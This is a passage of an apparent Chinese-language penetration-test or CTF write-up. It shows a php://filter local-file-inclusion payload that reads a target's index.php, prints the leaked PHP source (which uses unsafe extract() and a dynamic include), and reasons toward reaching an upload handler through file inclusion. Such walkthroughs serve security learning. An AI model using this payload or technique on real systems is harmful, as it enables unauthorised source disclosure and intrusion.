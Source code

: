 archive=php://filter/read=convert.base64-encode/resource=/usr/share/nginx/PIzABXDg/index.php

```php+HTML
<?php require('config.php');?>
<?php include('lib/functions.php');?>
<?php require('lib/mysql.class.php');?>
<?php
ini_set("display_errors","On");
error_reporting(E_ALL);
@extract($_GET,EXTR_PREFIX_ALL,"g");
if(isset($_POST['submit']) || isset($g_submit)){
  @check_post_request();
  @extract($_POST,EXTR_PREFIX_ALL,"p");
}

if(!isset($_SESSION))
  session_start();
  
$db = new c_mysql;

$config = $db->select_one('config');

$g_m = (isset($g_m) && in_array_key($g_m,$models)) ? $g_m : 'order';
$g_o = isset($g_o) ? $g_o : 'list';

if($g_m != 'login' && ($g_m == 'order' && $g_o != 'add'))
  if(!isset($_SESSION['uid'])){
    header('Location:?m=login');
	exit();
  }
if(isset($_SESSION['uid'])){
  $user = $db->select_one('user',array('uid' => $_SESSION['uid']));
  if(!$user)
    alert_goto('?m=login','æ²¡æè¿ä¸ªç¨æ·çè®°å½ï¼è¯·éæ°ç»å½ï¼');
}
include('model/'.$g_m.".php");

$operate_file = 'model/'.$g_m."_".$g_o.".php";
if(file_exists($operate_file))
  include($operate_file);

create_html();
?> 
```

这里看上传的文件被存到了$g_m和$g_o连接起来的目录里

回到浏览器看一下

![image-20221224184724794](F:/Typora_pic/pte/image-20221224184724794.png)

这里猜测m和o就是这里的$g_m和$g_o，再看代码的33行，还有一个model的目录

所以在文件包含里我们把原本的目录上加上这两个目录名/model/order_upload.php
